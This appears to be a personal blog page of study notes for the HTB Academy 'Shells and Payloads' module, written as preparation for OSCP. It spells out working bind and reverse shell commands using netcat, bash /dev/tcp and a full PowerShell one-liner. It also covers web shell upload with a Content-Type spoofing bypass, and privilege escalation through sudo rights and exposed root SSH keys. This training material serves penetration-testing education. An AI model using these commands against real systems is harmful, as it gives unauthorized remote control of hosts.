```yaml
---
layout: single
title:  "HTB Academy - Shells and Payloads"
categories: 
  - OSCP Notes
tags:
  - htb-academy
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
excerpt: ""
permalink: /posts/shells-and-payloads-notes
author_profile: false
sidebar:
  nav: "navbar"
---
```


searchLinux Shell Validation:

* `ps`
* `env`
* `echo $SHELL`

Windows Shell Validation:

* `env`
* If PowerShell is used, `PS` appears in the prompt. Else, `C:` appears if `cmd` is used.

## Bind Shell

Target has an active listener, and we connect to the target from our attack host.

To create a bind bash shell:
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <target ip> 8888 > /tmp/f`

To connect to the bind shell from our attack host:
`nc -nv <target ip> 8888`

## Reverse Shell

Host has an active listener, and we connect to our host from the target.

To create a listener on the host:
`nc -lnvp 8888`

Then, on the target, connect to the host.

* On Windows (`cmd`):
  
  ```
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<host ip>',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```

* On Linux: `bash -i >& /dev/tcp/<host ip>/8888 0>&1` or `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <host ip> 7777 > /tmp/f`

## Windows

Windows payload script formats: `.dll`, `.bat`, `.vbs`, `.msi`, `.ps1`

Useful tools for payload generation: `Metasploit/MSFVenom`, `PayloadsAllTheThings`, `Nishang`

Use `CMD` when:

* You are on an older host that may not include PowerShell.
* When you only require simple interactions/access to the host.
* When you plan to use simple batch files, net commands, or MS-DOS native tools.
* When you believe that execution policies may affect your ability to run scripts or other actions on the host.

Use `PowerShell` when:

* You are planning to utilize cmdlets or other custom-built scripts.
* When you wish to interact with .NET objects instead of text output.
* When being stealthy is of lesser concern.
* If you are planning to interact with cloud-based services and hosts.
* If your scripts set and use Aliases.

## Linux

Key things to note:

* What shell & programming languages are available on the system?
* What application is running & are there any known vulnerabilities?
* What distribution of Linux is running, and what packages are available to us?

## Spawning Interactive Shells

### Some commands

* `/bin/sh -i`
* Python: `python -c 'import pty; pty.spawn("/bin/sh")'`

### Linux Permissions

Check file ownership with `ls -la`.

Check `sudo` permissions with `sudo -l` (requires interactive shell).

* If `NOPASSWD` is specified for a certain user, we can `sudo -u <username> <command>`to execute the command as the specified user.
* If we want to login as another user, we can run `su <new username>`.

If we have access to `/root`, check if SSH keys are exposed (private and public keys); downloading these keys to our system allows us to SSH into the server as root (using the private keys `-i`option).

## Web Shells

### Laudanum

The `Laudanum` repository contains shell scripts for web applications in `asp`, `aspx`, `php`, `jsp` etc.

* Location: `/usr/share/laudanum`.
* To use these scripts, modify the required parameters and upload/inject them into the web application.

### Antak webshell

Found within the `Nishang` repository. Useful for `aspx` web applications.

* Like `Laudanum`, we make a copy of the payload script and modify it for our use. Then, we upload it to a vulnerable web application, which should trigger a webshell.

### PHP webshell

WhiteWinterWolf's webshell: <https://github.com/WhiteWinterWolf/wwwolf-php-webshell>

* Likewise, upload the webshell to the website.

Note that some websites only allow specific file types to be uploaded.

* In these cases, we will need to intercept the `POST` requests and modify the `Content-Type` headers for compliance.
* For example, we change the header value from `application/php` to something acceptable, like `image/gif`.
